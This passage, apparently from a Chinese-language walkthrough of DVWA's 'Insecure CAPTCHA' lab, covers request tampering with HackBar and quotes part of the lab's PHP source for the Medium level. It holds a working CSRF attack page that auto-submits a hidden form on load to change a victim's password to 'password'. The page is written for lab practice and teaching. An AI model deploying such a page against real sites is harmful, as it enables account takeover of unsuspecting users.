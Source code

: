 #### payload1
利用抓包工具，或者hackerbar都可，不过hackerbar会更加有效果。
[![cD9LKx.png](https://z3.ax1x.com/2021/04/12/cD9LKx.png)](https://imgtu.com/i/cD9LKx)

[![cDCeIg.png](https://z3.ax1x.com/2021/04/12/cDCeIg.png)](https://imgtu.com/i/cDCeIg)
#### payload2
由于没有任何防止csrf的机制，可以构造攻击界面

```html
<html>      

<body onload="document.getElementById('transfer').submit()">        

  <div>    

    <form method="POST" id="transfer" action="http://9ff7e097fa444f269fad06a67e8c148d.app.mituan.zone/vulnerabilities/captcha/">     

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">     

		<input type="hidden" name="step" value="2"      

		<input type="hidden" name="Change" value="Change">        

	</form>        

  </div>        

</body>

</html>
```
当受害者访问这个页面时，攻击脚本会伪造改密请求发送给服务器。

## Medium
#### 源码分析
```php
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key' ],
        $_POST['g-recaptcha-response']
    );

    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }
    else {
```